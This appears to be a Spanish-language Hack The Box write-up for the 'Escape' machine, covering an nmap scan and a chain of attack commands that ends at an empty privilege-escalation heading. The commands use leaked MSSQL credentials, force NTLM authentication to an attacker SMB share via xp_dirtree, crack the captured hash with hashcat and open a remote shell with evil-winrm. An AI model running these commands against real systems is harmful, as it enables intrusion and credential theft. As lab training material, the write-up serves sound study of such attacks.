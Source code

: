 
![](https://github.com/hackthebox/writeup-templates/raw/master/machine/assets/images/banner.png)



<img src="https://labs.hackthebox.com/storage/avatars/80936664b3da83a92b28602e79e47d79.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Escape</font>

​		28/04/2025

​		

​		

 



### Description:

This machine...

### Difficulty:

`MEDIUM`

### Flags:

User: `<md5>`

Root: `<md5>`

# Enumeration

```bash
nmap 10.10.11.202 -sCV --min-rate 5000 -v -Pn -oN escape.txt
```

```bash
# Nmap 7.95 scan initiated Mon Apr 28 11:11:28 2025 as: /usr/lib/nmap/nmap --privileged -sCV --min-rate 5000 -v -Pn -oN escape.txt 10.10.11.202
Nmap scan report for 10.10.11.202
Host is up (0.052s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-28 17:11:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
|_ssl-date: 2025-04-28T17:12:55+00:00; +8h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-28T17:12:56+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-28T17:07:44
| Not valid after:  2055-04-28T17:07:44
| MD5:   8849:9ff2:0bad:e276:4ef3:b780:b8c5:94e4
|_SHA-1: 218b:603f:7f15:3796:1cc9:c840:8a62:77cb:5bc0:054d
|_ssl-date: 2025-04-28T17:12:55+00:00; +8h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
|_ssl-date: 2025-04-28T17:12:55+00:00; +8h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
|_ssl-date: 2025-04-28T17:12:56+00:00; +8h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-time: 
|   date: 2025-04-28T17:12:19
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 28 11:12:56 2025 -- 1 IP address (1 host up) scanned in 87.91 seconds

```

Podemos ver que esta el dominio sequel.htb

Tambien hay una carpeta compartida llamada Public con un pdf y dentro un usuario y contraseña.
![[Pasted image 20250428113052.png]]

PublicUser:GuestUserCantWrite1

Como vemos que tenemos mssql abierto, vamos a tratar de interntar de meternos en este servicio con la password que hemos conseguido.


```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```

Como hemos conseguido acceso, ahora podemos aprovechar para conseguir un Hash ntlm gracias a la propiedad de mssqclient de EXEC xp_dirtree

por lo que levantaremos un smb share rapidamente con el modulo de impacket:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

y despues desde mssqclient ejecutaremos:

```bash
EXEC xp_dirtree '\\10.10.14.6\smbFolder'
```

y ahora podremos ver el hash:

![[Pasted image 20250428115636.png]]


ahora la crackeamos

```
hashcat -m 5600 'sql_svc::sequel:aaaaaaaaaaaaaaaa:af0cc6896b85e48c73799c6c744c9b62:010100000000000000c9456523b8db011b1f66547da31f85000000000100100074004d006100660072006400690068000300100074004d006100660072006400690068000200100072004c0051006c00580045006e0056000400100072004c0051006c00580045006e0056000700080000c9456523b8db0106000400020000000800300030000000000000000000000000300000f14706f602108f35b814201b66ccb08aa4875d0adf0ff77b619fe8ac3b0694e00a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000' /usr/share/wordlists/rockyou.txt --show
```

Ahora vemos si este usuario puede conectarse con evilwinrm

```bash
crackmapexec winrm 10.10.11.202 -u sql_svc  -p REGGIE1234ronnie
```

![[Pasted image 20250430074033.png]]

Vemos que pone pwned, por lo que podemos conectarnos.

```bash
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```




# Lateral Movement

Vemos que hay un archivo de logs en la carpeta de MySql asi que lo vemos
Aqui podemos encontrar un usuario y contraseña, asi que nos moveremos a este

![[Pasted image 20250430080150.png]]
sequel.htb\Ryan.Cooper:NuclearMosquito3

# Privilege Escalation